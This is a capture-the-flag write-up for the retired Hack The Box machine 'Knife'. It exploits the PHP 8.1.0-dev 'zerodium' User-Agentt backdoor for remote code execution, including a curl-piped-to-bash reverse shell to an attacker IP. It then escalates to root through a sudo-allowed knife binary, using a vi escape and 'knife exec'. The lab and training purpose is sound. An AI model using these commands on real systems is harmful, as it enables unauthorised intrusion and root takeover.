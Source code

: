 # Knife - Linux, easy (10.10.10.242)

### Enumeration
```
PORT     STATE    SERVICE  VERSION
22/tcp   open     ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp   open     http     Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
4004/tcp filtered pxc-roid
5960/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

A Gobuster scan reveals nothing, so let's try something else.

Sending a curl request to index.php we can observe the response headers `curl -I http://10.10.10.242/index.php` (-I: retrieves the headers only):
```
HTTP/1.1 200 OK
Date: Sat, 20 Aug 2022 16:53:03 GMT
Server: Apache/2.4.41 (Ubuntu)
X-Powered-By: PHP/8.1.0-dev
Content-Type: text/html; charset=UTF-8
```

The `X-Powered-By` field reveals that the application is using **PHP/8.1.0-dev** version.

This version is vulnerable since this version was released with a backdoor, more details here [php-8.1.0-dev-backdoor.rce](https://flast101.github.io/php-8.1.0-dev-backdoor-rce/).

Essentially, the code chekcs for the first occurrence of **zerodium** string in User-Agentt** request header. And if found, it execute the code after that string.
So, we can test this by making the following request using `curl`:
```
kali@kali:~/HackTheBox/retired/Linux/easy/Knife$ curl http://10.10.10.242/index.php -H 'User-Agentt: zerodiumsystem("id");' 
uid=1000(james) gid=1000(james) groups=1000(james)
...
```

It works! Let's get a reverse shell.

### Obtaining user James
Setup a python3 web server on port 80 and create index.html with `bash -i >& /dev/tcp/10.10.14.2/4444 0>&1` in it.
Start a netcat listener and then make the following curl request `curl http://10.10.10.242/index.php -H 'User-Agentt: zerodiumsystem("curl 10.10.14.2 | /bin/bash");'`.
```
james@knife:/$ id
id
uid=1000(james) gid=1000(james) groups=1000(james)
```

Get the first flag!

### Obtaining Root
Checking with `sudo -l` we can see that user James can run `/usr/bin/knife` as root:
```
User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

Knife tool provides an interface to manage Chef automation server nodes, coockbooks, recipes and so on. Knife usage can be read from [manpage](https://manpages.ubuntu.com/manpages/bionic/man1/knife.1.html).

We can get a shell in two wasy mainly, the first one is by using vim while the second executing some perl code with knife.

### Mode 1
We can see from the manpage of knife some example, one of them shows that it is possible to edit knife data using a text editor, so we can try `sudo knide data bag create 1 2 -e vi`.
This will open up the vim editor! To get a shell as root, just type in vim `:!/bin/sh`.

### Mode 2
Search knife in [GTFOBins](https://gtfobins.github.io/gtfobins/knife/). It tells us that it can run ruby code, so we can execute the following command:
```
sudo knife exec -E 'exec "/bin/sh"'
id
uid=0(root) gid=0(root) groups=0(root)
```


